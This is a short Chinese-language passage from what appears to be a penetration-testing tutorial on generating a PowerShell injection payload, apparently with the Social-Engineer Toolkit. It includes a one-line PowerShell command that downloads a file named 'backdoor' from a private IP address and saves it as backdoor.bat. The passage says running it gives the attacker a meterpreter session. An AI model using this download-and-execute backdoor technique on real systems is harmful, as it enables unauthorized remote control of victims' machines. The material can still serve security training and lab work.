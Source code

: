 生成的文件在`/root/.set/reports/powershell/`下。 其中`x86_powershell_injection.txt`为 bat 文件，可以直接改名运行。 在这里有个技巧可以通过 powershell 一句话直接下载文件。

```
powershell (new-object System.Net.WebClient).DownloadFile( 'http://192.168.200.159/backdoor','backdoor.bat') 
```

![enter image description here](img/img1_u96_png.jpg)

然后再执行就可以得到 meterpreter 会话了。

![enter image description here](img/img2_u95_png.jpg)
